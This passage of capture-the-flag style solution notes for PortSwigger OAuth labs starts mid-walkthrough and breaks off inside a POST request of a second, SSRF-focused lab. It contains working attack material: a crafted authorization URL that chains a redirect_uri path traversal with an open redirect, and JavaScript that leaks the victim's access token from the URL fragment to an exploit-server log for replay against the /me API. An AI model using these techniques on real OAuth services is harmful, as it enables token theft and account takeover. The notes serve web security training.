 ```
GET /auth?client_id=jh4kdzc6g2le7vrkg69wo&redirect_uri=https://oauth-0ad3003503a9516480298d5c029c00ea.oauth-server.net/auth?client_id=jh4kdzc6g2le7vrkg69wo&redirect_uri=https://0a5400a303b6517980178fbf007900ce.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a5c008c033f51b8808a8ee7011200d6.web-security-academy.net/exploit&response_type=token&nonce=1143824690&scope=openid%20profile%20email
```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at ``/exploit`` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
```
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```
13. To test that everything is working correctly, store this exploit and visit your malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for ``GET /?access_token=[...]``.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
15. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for ``GET /?access_token=[...]``.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the ``GET /me`` request and replace the token in the ``Authorization: Bearer`` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

## SSRF via OpenID dynamic client registration
Reference: https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration


### Solution
1. While proxying traffic through Burp, log in to your own account. Browse to ``https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration`` to access the configuration file. Notice that the client registration endpoint is located at ``/reg``.
2. In Burp Repeater, create a suitable ``POST`` request to register your own client application with the OAuth service. You must at least provide a ``redirect_uris`` array containing an arbitrary whitelist of callback URIs for your fake application. For example:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
```